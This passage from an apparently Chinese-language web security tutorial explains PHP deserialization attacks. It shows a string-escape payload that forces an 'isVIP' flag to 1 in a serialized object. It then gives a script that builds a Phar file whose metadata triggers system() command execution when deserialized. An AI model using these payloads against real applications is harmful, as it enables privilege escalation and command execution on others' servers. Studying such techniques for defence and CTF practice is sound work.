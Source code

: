```php
$a_seri = serialize($a);
$a_seri_filter = filter($a_seri);

echo $a_seri_filter;
?>

# O:4:"user":3:{s:8:"username";s:110:"hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:46:";s:8:"password";s:6:"123456";s:5:"isVIP";i:1;}";s:5:"isVIP";i:0;}

```

反序列化即是

```
object(user)#2 (3) { ["username"]=> string(110) "hackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhackhack";s:8:"password";s:46:" ["password"]=> string(6) "123456" ["isVIP"]=> int(1) }
```



**数组逃逸闭合要加一个}，即用";}闭合**









## Phar反序列化



> phar，全称为`PHP Archive`，phar扩展提供了一种将整个PHP应用程序放入`.phar`文件中的方法，以方便移动、
>
> 安装。`.phar`文件的最大特点是将几个文件组合成一个文件的便捷方式，提供了一种将完整的PHP程
>
> 序分布在一个文件中并从该文件中运行的方法。



文件结构在[文件包含](./从零开始的Web之路-文件包含篇.md/#phar)中讲过，这里主要讲如何利用

### 利用

将要序列化的内容写入`meta-data`中，再使用phar伪协议进行反序列化。

首先需要生成phar文件，在php的配置文件中需要设置`phar.readonly= off`。

```php
<?php
class A {
    public $a;

    public function __destruct()
    {
        system($this->cmd);
    }
}
$a = new A();
$a->cmd='ls';
$phar = new Phar("demo.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");//设置stub
$phar->setMetadata($a);//将自定义的meta-data存入manifest
$phar->addFromString("demo.txt", "demo");//添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```